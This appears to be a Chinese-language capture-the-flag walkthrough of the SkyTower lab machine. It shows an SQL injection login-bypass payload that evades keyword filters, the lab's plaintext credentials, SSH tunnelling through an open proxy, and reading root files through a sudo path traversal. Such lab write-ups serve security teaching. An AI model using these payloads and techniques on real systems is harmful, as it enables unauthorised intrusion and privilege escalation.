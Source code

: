 # SkyTower

![image-20200720020833766](assets/SkyTower.assets/image-20200720020833766.png)

![image-20200720021033516](assets/SkyTower.assets/image-20200720021033516.png)

![image-20200720021249255](assets/SkyTower.assets/image-20200720021249255.png)

![image-20200720021306614](assets/SkyTower.assets/image-20200720021306614.png)

![image-20200720022616200](assets/SkyTower.assets/image-20200720022616200.png)

简单的登录框输入`'`,测试出了注入点

使用burpsuit尝试绕过登录，但是在处理过程中发现，一些符号和词语被过滤了

![image-20200720025731777](assets/SkyTower.assets/image-20200720025731777.png)



![image-20200720030016698](assets/SkyTower.assets/image-20200720030016698.png)

首先是`or`应该被去除了，然后是`=`和`--`也被去除了

这时我们可以使用`||`替换`or`注释符号则只使用`#`

但是没有办法替换掉`=`

最终尝试出的payload应为

`' || 1=1#`

成功绕过，得到ssh账户凭证

![image-20200720031236840](assets/SkyTower.assets/image-20200720031236840.png)

```bash
Username: john
Password: hereisjohn
```



```bash
ssh john@192.168.43.93
```

但是我们在扫描是发现，ssh端口是被过滤掉的

![image-20200720031437222](assets/SkyTower.assets/image-20200720031437222.png)

而3128端口提供给我们一个代理

使用代理进行ssh转发

```bash
proxytunnel -p 192.168.43.93:3128 -d 127.0.0.1:22 -a 2222
```

重新链接本地端口

```bash
ssh -p 2222 john@127.0.0.1
```

![image-20200720032646942](assets/SkyTower.assets/image-20200720032646942.png)

成功登录，但是shell会立即断开

尝试使用`/bin/bash`作为参数

重新链接

```
ssh -p 2222 john@127.0.0.1 /bin/bash
```

![image-20200720033105977](assets/SkyTower.assets/image-20200720033105977.png)

这样得到的shell并不完整，这通常应该是bashrc中做了一些设置

查看一下

![image-20200720034056125](assets/SkyTower.assets/image-20200720034056125.png)

通常删除用户bashrc后会有系统重新有系统默认的/etc/bash.bashrc

我们备份一下并重新登录

![image-20200720034300639](assets/SkyTower.assets/image-20200720034300639.png)

```bash
ssh -p 2222 john@127.0.0.1
```

在网页服务目录下的login.php页面直接发现数据库凭证

登录数据库

```bash
mysql -u root -p
```





![image-20200720040742438](assets/SkyTower.assets/image-20200720040742438.png)

只有root，其他库

![image-20200720213103817](assets/SkyTower.assets/image-20200720213103817.png)

```bash
sara:ihatethisjob
william:senseable  
```

不能su

![image-20200720215346782](assets/SkyTower.assets/image-20200720215346782.png)

登录了一下网页，密码是一样的。是ssh凭证没问题。登录ssh

还是和之前的操作一样需要rm掉bashrc

ssh登录成功

![image-20200720223253848](assets/SkyTower.assets/image-20200720223253848.png)

可以cat或者ls。我们可以利用`..`

```bash
sudo /bin/ls /accounts/../root
```

![image-20200720223434831](assets/SkyTower.assets/image-20200720223434831.png)

```bash
sudo /bin/cat /accounts/../root/flag.txt
```

![image-20200720224947867](assets/SkyTower.assets/image-20200720224947867.png)

![image-20200720225025791](assets/SkyTower.assets/image-20200720225025791.png)